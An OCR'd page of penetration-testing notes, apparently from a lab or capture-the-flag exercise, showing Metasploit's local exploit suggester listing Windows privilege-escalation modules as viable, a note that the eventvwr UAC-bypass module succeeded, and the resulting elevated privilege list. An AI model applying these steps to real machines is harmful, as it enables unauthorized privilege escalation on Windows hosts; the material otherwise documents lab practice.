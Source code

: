 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_comhijack                      Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
 4   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 5   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 9   exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
 11  exploit/windows/local/tokenmagic                               Yes                      The target appears to be vulnerable.

use Ctrl + Z to exit the session

use explot 2 - success

use getprivs  - to see "Enabled Process Privileges"

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
==SeTakeOwnershipPrivilege==
SeTimeZonePrivilege
SeUndockPrivilege
